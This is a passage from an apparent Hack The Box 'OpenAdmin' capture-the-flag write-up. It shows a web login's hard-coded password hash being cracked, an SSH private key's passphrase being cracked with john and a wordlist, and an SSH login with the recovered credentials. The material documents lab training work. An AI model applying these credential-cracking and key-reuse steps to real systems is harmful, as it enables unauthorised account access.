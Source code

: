 ```
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
go to `/var/www/internal` and check the index.php , i got login creds<br/>
```
if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
```
cracking this password with crackstation : `https://crackstation.net/` gives me `Revealed` as password <br/>
now i can login with (`jimmy:Revealed`)<br/>
a private id_rsa key appear , i can crack it with john. Save the id rsa in a file called id_rsa<br/>
download the tool: `https://github.com/stricture/hashstack-server-plugin-jtr/blob/master/scrapers/sshng2john.py`<br/>

```
/opt/sshng2john.py id_rsa > to_crack
```
```
john to_crack -w=/usr/share/wordlists/rockyou.txt
```
The password is `bloodninjas` <br/>
finnaly i can ssh to `joanna` with this id_rsa and password<br/>

```
chmod 600 id_rsa
```
```
ssh -i id_rsa joanna@10.10.10.171
```

![info](https://raw.githubusercontent.com/0xyassine/0xyassine.github.io/master/assets/img/htb/open/user.jpg)
